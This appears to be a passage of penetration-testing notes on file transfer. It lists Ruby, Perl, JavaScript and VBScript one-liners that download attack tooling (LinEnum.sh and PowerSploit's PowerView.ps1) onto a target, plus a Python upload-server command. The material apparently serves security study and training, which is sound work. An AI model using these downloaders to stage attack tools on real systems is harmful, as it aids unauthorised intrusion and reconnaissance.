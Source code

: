 File download - <code class="invert">Ruby</code>

```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

File download - <code class="invert">Perl</code>

```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
File download - <code class="invert">JavaScript</code>

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

File download - <code class="invert">JavaScript & cscript</code>
```cmd
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

File download - <code class="invert">VBScript</code>  
`wget.vbs`

```
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.
```powershell
C:\Users> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```


<code class="invert">Upload Operations using Python3</code>
```bash
python3 -m uploadserver 9001
```
